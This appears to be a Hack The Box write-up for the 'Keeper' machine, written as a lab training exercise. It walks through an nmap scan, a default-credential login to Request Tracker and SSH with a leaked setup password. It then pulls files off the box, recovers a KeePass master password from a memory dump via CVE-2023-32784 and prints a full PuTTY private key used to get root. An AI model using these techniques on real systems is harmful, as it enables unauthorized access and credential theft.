

## Enumeration
initial nmap:
```
Nmap scan report for 10.10.11.227
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.16 seconds
```

There are only open ports 80 and 22. SSH typically requires credentials to access, so we will start exploration with the nginx server on port 80:


### Enumerating Web Service
We see text that directs us to `tickets.keeper.htb/rt/`. This appears to be a subdomain for a DNS of `keeper.htb`, and needs to first be added to our /etc/hosts file:
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts                                                                              
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.11.227 tickets.keeper.htb keeper.htb
```
It might not be necessary, but I decided to add both `tickets.keeper.htb` and `keeper.htb` in case we need to resolve both.
Now visiting tickets:


## Foothold
### Login via default credentials

We see a basic ticket management website asking for login credentials. On this page, we can learn that it is using BestPractical services. When we try default login credentials for BestPractical services (root:password), we find that we are able to login!


Looking for tickets, we can find 1 ticket in the general tab:


We see a name of Lise Nørgaard that we might want to remember. The ticket mentions keepass, a service used to store passwords. A very juicy target indeed.

### System access via unsecure storage of passwords

We can view the conversation history between Lise and rt:


Unfortunately, it looks like the keepass files were removed from the conversation and we are unable to swipe it.

When we view Lise's profile, the user summary doesn't tell us much:


However, when we move to edit, we can find extra details about the person:


Notably, we can see the unix login of `lnorgaard`, which can be useful for SSH login. Additionally, we find a password used for setup! If Lise has not updated this, we might be able to login:
```
┌──(kali㉿kali)-[~/Documents]
└─$ ssh lnorgaard@keeper.htb        
The authenticity of host 'keeper.htb (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'keeper.htb' (ED25519) to the list of known hosts.
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Tue Feb  6 22:16:25 2024 from 10.10.14.179
lnorgaard@keeper:~$ 
```
## Privilege Escalation
### Leveraging Keepass CVE 2023-32784
We are able to authenticate! We might notice that `lnorgaard` is notified of mail. This can be very interesting for most HTB systems, however in this case it is only the email receipt for the previously discovered ticket. 
Within the home folder, we can find an interesting zip:

```
lnorgaard@keeper:~$ ls -al
total 85388
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Feb  6 22:52 .
drwxr-xr-x 3 root      root          4096 May 24  2023 ..
lrwxrwxrwx 1 root      root             9 May 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23  2023 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23  2023 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24  2023 .cache
-rw------- 1 lnorgaard lnorgaard       20 Feb  6 22:17 .lesshst
-rw------- 1 lnorgaard lnorgaard      807 May 23  2023 .profile
-rw-r--r-- 1 root      root      87391651 Feb  7 03:28 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24  2023 .ssh
-rw-r----- 1 root      lnorgaard       33 Feb  6 21:56 user.txt
-rw-r--r-- 1 root      root            39 Jul 20  2023 .vimrc
```

RT30000 is a very big file, and is the same number associated with our keepass ticket. This zip likely contains all related evidences. We can take this for ourselves using scp:
```
┌──(kali㉿kali)-[~/Documents/Keeper]
└─$ scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip ./                 
lnorgaard@keeper.htb's password: 
RT30000.zip                       4% 3825KB  39.2KB/s   34:39 ETA
```

This method might take forever, so I decided to keep it in the box..

```
lnorgaard@keeper:/dev/shm$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
lnorgaard@keeper:/dev/shm$ ls
KeePassDumpFull.dmp  passcodes.kdbx  RT30000.zip
lnorgaard@keeper:/dev/shm$ ls -al
total 332808
drwxrwxrwt  2 root      root            100 Feb  7 03:34 .
drwxr-xr-x 17 root      root           3920 Feb  6 21:55 ..
-rwxr-x---  1 lnorgaard lnorgaard 253395188 May 24  2023 KeePassDumpFull.dmp
-rwxr-x---  1 lnorgaard lnorgaard      3630 May 24  2023 passcodes.kdbx
-rw-r--r--  1 lnorgaard lnorgaard  87391651 Feb  7 03:33 RT30000.zip
```

After unzipping, we see the original keepass database `passcodes.kdbx`, and the error dump. Typically, the keepass file is all we care about since it stores the passwords. However, when researching how to extract passwords from keepass, we might find a [recent vulnerability that involves a dump file](https://github.com/vdohney/keepass-password-dumper). This github project is designed to extract the master password used during the creation of the dump file, which can be used to open the original keepass vault! To use, it is best for me to transfer the vault and dump file to my system. To mix it up a little, I decided to transfer via python simple http server. This time it is a lot quicker, thankfully!

```
lnorgaard@keeper:/dev/shm$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```
And now I can wget the files from my kali:
```
──(kali㉿kali)-[~/Documents/Keeper]
└─$ wget http://keeper.htb:8888/passcodes.kdbx
--2024-02-06 20:37:11--  http://keeper.htb:8888/passcodes.kdbx
Resolving keeper.htb (keeper.htb)... 10.10.11.227
Connecting to keeper.htb (keeper.htb)|10.10.11.227|:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3630 (3.5K) [application/octet-stream]
Saving to: ‘passcodes.kdbx’

passcodes.kdbx               100%[==============================================>]   3.54K  --.-KB/s    in 0s      

2024-02-06 20:37:11 (625 MB/s) - ‘passcodes.kdbx’ saved [3630/3630]
```
The same is done for the dump file.

When launching the password dumper from kali, we might first get an error about incompatible .NET kits:
```
┌──(kali㉿kali)-[~/Documents/Keeper/keepass-password-dumper]
└─$ dotnet run ../KeePassDumpFull.dmp     
/usr/share/dotnet/sdk/6.0.400/Sdks/Microsoft.NET.Sdk/targets/Microsoft.NET.TargetFrameworkInference.targets(144,5): error NETSDK1045: The current .NET SDK does not support targeting .NET 7.0.  Either target .NET 6.0 or lower, or use a version of the .NET SDK that supports .NET 7.0. [/home/kali/Documents/Keeper/keepass-password-dumper/keepass_password_dumper.csproj]                                                                                                 

The build failed. Fix the build errors and run again.
```
To resolve this issue, I changed the target framework in `csproj` to net6.0 from net7.0:
```
┌──(kali㉿kali)-[~/Documents/Keeper/keepass-password-dumper]
└─$ cat keepass_password_dumper.csproj 
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

</Project>
```
This might not always work, but here it is good enough.
```
┌──(kali㉿kali)-[~/Documents/Keeper/keepass-password-dumper]
└─$ dotnet run ../KeePassDumpFull.dmp 
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●●g
<...SNIP...>
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ,, l, `, -, ', ], A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ●
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ●
16.:    d, 
17.:    e, 
Combined: ●{,, l, `, -, ', ], A, I, :, =, _, c, M}dgr●d med fl●de
```

The password is looking a little odd to say the least. After reviewing their example, it looks like the program often cannot distinguish the first few characters. We know lnogaard is Danish based on her ticket profile, so it is possible that these words not English. Searching on google for `**dgr*d med fl*de` eventually leads to something that might be a popular phrase: Rødgrød Med Fløde. Firstly starting with no caps, we get a hit.
`rødgrød med fløde`

### Root access via PuTTY Key


We see a couple passwords entered, but the first thing to catch my eye is in the Notes, a PuTTY-User-Key-File.


When going to the edit page, we can see the supplied password and what looks to be an RSA key:
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

To use this putty key, we can begin by installing putty:
```
┌──(kali㉿kali)-[~/Documents/Keeper/keepass-password-dumper]
└─$ sudo apt install putty
[sudo] password for kali: 
Reading package lists... Done
<...SNIP...>
```
This putty will launch a GUI:


Under SSH > Auth > Credentials, we can supply a private key file. Here, I supply a file with the previous rsa key contents pasted:


Now we can specify the host name in Session, and open.


We have to specify logging in as root, but once we do, we are in without supplying the password!


